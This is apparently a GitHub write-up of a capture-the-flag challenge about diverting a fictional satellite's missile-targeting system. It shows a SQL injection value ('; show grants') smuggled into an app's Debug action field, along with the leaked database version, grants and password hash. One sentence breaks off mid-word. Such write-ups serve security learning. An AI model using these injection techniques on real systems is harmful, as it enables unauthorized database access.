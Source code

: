 # Objective 22: Missile Diversion
**Location: Space Island: Zenith SGS**

For this objective the same Docker image and Wireguard VPN connection as in [Objective 21](https://github.com/joergschwarzwaelder/hhc2023/tree/main/Objective-21).
The aim is to change the pointing mode from 0 ("Eatargeting system 

In the first step, the app "missile-targeting-system" is started just like the "camera" app in objective 21.

The "Action Service" of this app has the predefined action "Debug", which is vulnerable to SQL injections by supplying additional data like `; show grants` as "AttributeValue".
The output of these injections can be found on the "nanosat-mo-supervisor" tab, subtab "Apps Launcher service":
```
INFO: Debug action output: VERSION(): 11.2.2-MariaDB-1:11.2.2+maria~ubu2204 | 
Grants for targeter@%: GRANT USAGE ON *.* TO `targeter`@`%` IDENTIFIED BY PASSWORD '*41E2CFE844C8F1F375D5704992440920F11A11BA' | 
Grants for targeter@%: GRANT SELECT, INSERT ON `missile_targeting_system`.`satellite_query` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`messaging` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`target_coordinates` TO `targeter`@`%` | 
Grants for targeter@%: GRANT SELECT ON `missile_targeting_system`.`pointing_mode_to_str` TO `targeter`@`%` | 
```




**Achievement: Ipsum**
<!--stackedit_data:
eyJoaXN0b3J5IjpbNjQ1MTAzLC00NjYyNDIzMjEsLTIwMTAxOT
I2M119
-->